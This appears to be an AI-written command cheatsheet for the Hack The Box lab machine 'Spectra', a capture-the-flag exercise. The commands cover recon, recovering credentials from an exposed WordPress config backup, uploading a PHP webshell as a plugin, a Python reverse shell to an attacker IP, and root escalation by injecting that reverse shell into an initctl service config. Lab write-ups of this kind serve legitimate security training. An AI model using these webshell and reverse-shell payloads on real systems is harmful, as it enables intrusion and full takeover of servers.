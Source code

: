 # HTB: Spectra — Command Cheatsheet

## 📉 Box Info
- **Name:** Spectra
- **IP:** 10.10.10.229
- **OS:** ChromeOS
- **Difficulty:** Easy

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.229
nmap -p 22,80,3306 -sCV -oA scans/nmap-tcpscripts 10.10.10.229
```

---

## 🤖 Hosts Setup
```bash
echo "10.10.10.229 spectra.htb" | sudo tee -a /etc/hosts
```

---

## 🔗 Enumerate WordPress
```bash
# Look for .save file
curl http://spectra.htb/testing/wp-config.php.save

# Credentials found:
DB_USER=devtest
DB_PASS=devteam01

# Try login
wpscan --url http://spectra.htb/main -e ap,t,tt,u --api-token <your-token>
```

---

## 👤 WP Admin Login
```bash
# Username: administrator
# Password: devteam01
```

---

## 📂 Webshell via Plugin (Option A)
```php
# Create 0xdf.php with:
<?php system($_REQUEST["0xdf"]); ?>

# Zip it:
zip 0xdf-plug.zip 0xdf.php

# Upload via WP Admin ➝ Plugins ➝ Upload Plugin

# Access shell:
curl http://spectra.htb/main/wp-content/plugins/0xdf-plug/0xdf.php?0xdf=id
```

---

## 🚧 Reverse Shell (from WP Webshell)
```bash
# Listener
nc -lnvp 443

# Payload
curl http://spectra.htb/main/wp-content/plugins/0xdf-plug/0xdf.php \
  --data-urlencode "0xdf=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.7\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
```

---

## 🔎 Lateral Movement (Find creds)
```bash
cat /etc/lsb-release
cat /etc/autologin/passwd  # => SummerHereWeCome!!
```

---

## 🔐 SSH as Katie
```bash
sshpass -p 'SummerHereWeCome!!' ssh katie@10.10.10.229
```

---

## 🔒 Root Escalation
```bash
# Sudo permissions
sudo -l
# ➝ /sbin/initctl

# Editable conf:
ls /etc/init/*.conf  # choose test.conf or make your own

# Add to script block:
exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Start service:
sudo initctl start test
```

---

## ✅ Root Access
```bash
cat /root/root.txt
```

---

## 📑 Resources
- https://book.hacktricks.xyz/pentesting/wordpress
- https://gtfobins.github.io/gtfobins/initctl/
- https://github.com/offensive-security/exploitdb-bin-sploits/blob/master/bin-sploits/44449.rb

Let me know if you want a visual breakdown or plugin-based method only ✨


